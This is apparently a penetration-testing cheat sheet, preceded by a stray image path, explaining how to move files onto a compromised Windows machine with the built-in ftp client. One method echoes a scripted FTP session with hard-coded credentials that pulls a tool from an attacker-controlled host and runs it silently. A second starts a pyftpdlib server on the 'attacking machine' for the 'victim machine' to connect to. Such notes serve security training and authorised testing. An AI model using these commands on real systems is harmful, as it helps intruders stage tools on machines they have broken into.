 # ftp \(Built into Windows\)

## First Method

* on the compromised machine we echo out the following commands into a file

```bash
echo open 192.168.1.101 21 > ftp.txt
echo user asshat >> ftp.txt
echo secretPass >> ftp.txt
echo bin >> ftp.txt
echo get wget.ext >> ftp.txt
echo bye >> ftp.txt
```

* then run this command

```bash
# -s:filename : Specifies a text file containing FTP commands; the
                # commands will automatically run after FTP starts
# -v : Suppresses display of remote server responses, aka returned input
# -n : Suppresses auto-login upon initial connection
ftp -v -n -s:ftp.txt
```

* a ftp-server configured with the user asshat and the password secretPass is needed

## Second Method

* on the attacking Linux machine run

```bash
pip install pyftpdlib
```

* then run this command on Attacking Machine

```bash
python -m pyftpdlib -p 21 w
```

* run on Victim Machine

```bash
ftp 10.10.10.10
```

